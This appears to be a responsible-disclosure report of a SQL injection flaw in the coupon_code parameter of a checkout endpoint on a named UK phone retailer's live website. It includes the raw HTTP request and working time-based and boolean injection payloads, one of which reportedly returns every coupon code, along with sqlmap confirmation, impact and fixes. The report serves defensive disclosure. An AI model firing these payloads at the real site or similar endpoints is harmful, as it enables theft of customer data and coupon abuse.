




## Target

iMobile (imobile.co.uk) is a UK-based independent smartphone retailer, operating an e-commerce platform for buying tech devices online.


## Summary

The `applyCouponCode` endpoint on iMobile's checkout flow was found to be vulnerable to SQL Injection via the `coupon_code` parameter. The parameter is passed directly into a backend SQL query without proper sanitization or parameterization, allowing both time-based blind and boolean-based SQL injection. The issue was confirmed using manual testing and validated further with `sqlmap`, which demonstrated full database enumeration was possible.


## Vulnerability Details

- **Endpoint:** `POST /process/ajax/applyCouponCode`
- **Parameter:** `coupon_code` (`application/x-www-form-urlencoded`)
- **Authentication:** Not required to trigger the error / injection (cart-session based)
- **Injection type:** Boolean-based and time-based blind SQL Injection

## Steps to Reproduce

1. Add any item to the cart and go to the checkout/cart page.



3. Intercept the coupon application request with Burp Suite:

```
POST /process/ajax/applyCouponCode HTTP/2
Host: www.imobile.co.uk
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest

coupon_code=Save10
```

3. Submitting a non-existent coupon code returns a generic server error:
   ```json
   {"status":"error","error_type":"http_error","http_code":500,"msg":"Server error","data":null}
   ```



4. Submit a time-based payload:

```
coupon_code=FIRST16' OR SLEEP(500)
```



   The response is significantly delayed, confirming the input reaches the SQL query unsanitized.
5. Submit a boolean-based payload:

```
coupon_code=THIS-IS-A-TEST' OR 1=1-- -
```



   The response returns all available coupon codes in the database instead of the expected "invalid coupon" error — confirming the condition `1=1` altered the query logic.
6. The injection was further validated with `sqlmap` against the same parameter, confirming the database backend and that full enumeration (databases, tables) was achievable.


> Full database enumeration was confirmed via `sqlmap`, but no data dump was performed or retained beyond what was necessary to validate the vulnerability, in line with responsible testing practices.

## Impact

- Full SQL Injection on an unauthenticated/low-privilege checkout flow.
- Confirmed capability to enumerate backend databases and schema via `sqlmap`.
- Depending on the database user's privileges, this class of vulnerability can lead to full data exfiltration (customer PII, orders, payment-related metadata if stored), and in some configurations, further escalation (e.g. via `INTO OUTFILE` or stacked queries, not tested here to stay within safe testing boundaries).
- Business logic abuse is also possible: since the query returns valid coupon codes via boolean injection, an attacker could enumerate all active discount codes without brute-forcing.

## Suggested Remediation

- Use parameterized queries / prepared statements for all database interactions involving user-controlled input — never concatenate input directly into SQL strings.
- Apply strict allow-list validation on `coupon_code` (expected format: alphanumeric, fixed length).
- Ensure the application does not return raw/verbose database errors (like the `500` with `http_error`) to the client — use generic error messages.
- Apply least-privilege database credentials for the application user (no access to system tables, no file read/write privileges).
- Add WAF rules / rate limiting on checkout endpoints as defense-in-depth.

## Timeline

- Discovered: 
- Reported via [Manager]
- Fixed:
